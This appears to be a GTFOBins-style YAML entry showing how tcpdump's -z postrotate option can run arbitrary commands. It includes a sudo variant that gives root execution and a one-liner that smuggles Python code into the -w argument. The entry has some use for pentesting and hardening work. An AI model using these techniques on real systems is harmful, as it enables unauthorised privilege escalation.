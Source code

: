 ```yaml
---
description: |
  These require some traffic to be actually captured. Also note that the subprocess is immediately sent to the background.

  In recent distributions (e.g., Debian 10 and Ubuntu 18) AppArmor limits the `postrotate-command` to a small subset of predefined commands thus preventing the execution of the following.
functions:
  command:
    - description: This requires several commands.
      code: |
        COMMAND='id'
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF
    - descprition: One-liner to run arbitrary command leveraging python argument parser that does not require a space between the option -c and the value.
      code: |
        tcpdump -ln -i lo -w -c__import__\(\"os\"\).system\(\"id\"\) -W 1 -G 1 -z /usr/bin/python
  sudo:
    - code: |
        COMMAND='id'
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
---
```

